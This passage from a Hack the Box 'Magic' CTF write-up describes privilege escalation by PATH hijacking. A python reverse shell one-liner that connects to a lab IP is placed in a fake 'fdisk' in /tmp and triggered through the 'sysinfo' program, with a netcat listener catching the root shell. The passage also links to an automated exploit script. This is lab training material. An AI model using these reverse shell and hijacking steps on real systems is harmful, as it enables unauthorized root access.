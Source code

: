 In the _tmp_ folder \(which we have write access to\), create an _fdisk_ file and add a python reverse shell to it.

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.171",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Give it execute rights.

```text
chmod +x fdisk
```

Set the path directory to include the _tmp_ directory.

```text
PATH=/tmp:$PATH
```

This way when we run the _sysinfo_ program, it’ll look for the _fdisk_ program in the _tmp_ directory and execute our reverse shell.

Setup a netcat listener to receive the reverse shell.

```text
nc -nlvp 7777
```

Then run the _sysinfo_ command.

```text
sysinfo
```

We get a shell!

![Image for post](https://miro.medium.com/max/528/1*4lzS3H0nT6FXgcl21HGWDQ.png)

Upgrade the shell and get the _root.txt_ flag

![Image for post](https://miro.medium.com/max/414/1*x4HvgMZr8D1EzkwWzatvvw.png)

## Automated Scripts <a id="1d63"></a>

This section automates the web application attack vector\(s\) of the box. I’ve written the code in such a way that it should be easily read, therefore, I won’t go into explaining it here.

The script automates the initial foothold vector for this box and can be found on my [GitHub page](https://github.com/rkhal101/Hack-the-Box-OSWE-Preparation/blob/master/linux-boxes/magic/htb-magic-exploit.py). Refer to the _Usage Instructions_ in the main method for instructions on how to run the script.

![Image for post](https://miro.medium.com/max/1382/1*U0Fns-gUfvopfZlNaPqELQ.png)

## Secure Code Review <a id="7cb9"></a>
